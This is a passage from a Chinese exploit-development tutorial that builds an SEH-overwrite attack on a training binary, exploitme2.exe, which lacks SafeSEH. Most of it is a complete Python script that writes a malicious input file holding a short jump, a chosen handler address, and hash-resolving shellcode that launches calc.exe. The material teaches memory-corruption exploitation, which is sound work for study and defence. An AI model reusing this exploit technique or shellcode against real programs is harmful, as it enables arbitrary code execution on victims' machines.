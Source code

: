     [+] This mona.py action took 0:00:00.170000 
    

我们将使用第一个地址：0x00e91802.

这是已更新的Python脚本：

    
    
    #!python
    with open('c:\\name.dat', 'wb') as f:
        jmp = '\xeb\x06\x90\x90'
        handler = '\x02\x18\xe9\x00'
        shellcode = ("\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
                "\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
                "\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
                "\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
                "\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
                "\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
                "\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
                "\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
                "\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
                "\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
                "\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
                "\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
                "\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
                "\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
                "\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
                "\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
                "\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
                "\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
                "\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
                "\x30\x03\xc6\xeb\xdd")
        data = 'a'*84 + jmp + handler + shellcode
        f.write(data + 'c' * (10000 - len(data)))
    

用WinDbg运行脚本并打开exploitme2.exe（没有启用SafeSEH保护机制的版本）。现在，不出我们所料，计算器被弹出了！成功利用，但是我们已经改写了一些代码。同时，在这里我们假设不启用ASLR保护机制（对于现在来说）

# 0x01 检测实验

* * *

如果利用没法在你的系统上成功执行，那么可能是因为在栈上的空间有限。可以参考文章<http://drops.wooyun.org/tips/9948>中的More space on stack部分进行解决

